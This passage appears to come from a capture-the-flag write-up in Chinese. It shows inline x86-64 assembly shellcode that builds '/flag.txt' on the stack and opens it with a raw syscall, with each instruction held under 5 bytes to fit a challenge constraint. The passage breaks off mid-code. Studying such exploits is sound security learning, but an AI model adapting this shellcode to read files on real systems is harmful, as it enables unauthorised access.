 这是转换的汇编然后用syscall代替掉了读写文件函数。注释里是原始C代码以及汇编代码，我改了之后每个指令的机器码都在5字节之内，可以直接处理了

```assembly
  //char c[] = {'%','s','\0', 'r','w','\0',
  //    '/','f','l','a','g','.','t','x','t','\0'};
  //char buf[512];
  asm(
    "nop\n"
    "pop %rcx\n"
    "push %rcx\n"
  
  // sub $0x210,%rsp
    "xor %rax, %rax\n"
    "mov $0x210, %eax\n"
    "sub %rax, %rsp\n"
    
  // ??
 //   "mov %fs:0x28,%rax\n"
 //   "mov %rax,-0x8(%rbp)\n"
    
  // xor %eax,%eax  &  movabs $0x662f007772007325,%rax
  // &  movabs $0x7478742e67616c,%rdx  &  mov %rax,-0x210(%rbp)  
  // &  mov %rax,-0x210(%rbp)
     "mov %rbp, %rbx\n"
     "xor %rax, %rax\n"
     "mov $0x210, %eax\n"
     "sub %rax, %rbx\n"
     "mov $0x72007325, %eax\n"
     "mov %eax, (%rbx)\n"
     "mov $0x4, %eax\n"
     "add %rax, %rbx\n"
     "mov $0x662f0077, %eax\n"
     "mov %eax, (%rbx)\n"
     "mov $0x4, %eax\n"
     "add %rax, %rbx\n"
     "mov $0x2e67616c, %eax\n"
     "mov %eax, (%rbx)\n"
     "mov $0x4, %eax\n"
     "add %rax, %rbx\n"
     "mov $0x00747874, %eax\n"
     "mov %eax, (%rbx)\n"
  );

  
  //FILE *f = fopen(c+6, c+3);
  asm(
  // lea -0x210(%rbp),%rdx  &  add $0x3,%rdx  &  mov %rdx,%rsi
    "mov %rbp, %rsi\n"
    "xor %rax, %rax\n"
    "mov $0x20D, %eax\n"
    "sub %rax, %rsi\n"
  
  //lea -0x210(%rbp),%rax  &  add $0x6,%rax  &  mov %rax,%rdi
    "mov %rbp, %rdi\n"
    "xor %rax, %rax\n"
    "mov $0x20a, %eax\n"
    "sub %rax, %rdi\n"
    
    "mov $0,%esi\n"
    "mov $2,%eax\n"
    "syscall\n"
    /*
    "mov $0, %edx\n"
    "mov %rdi,%rsi\n"
```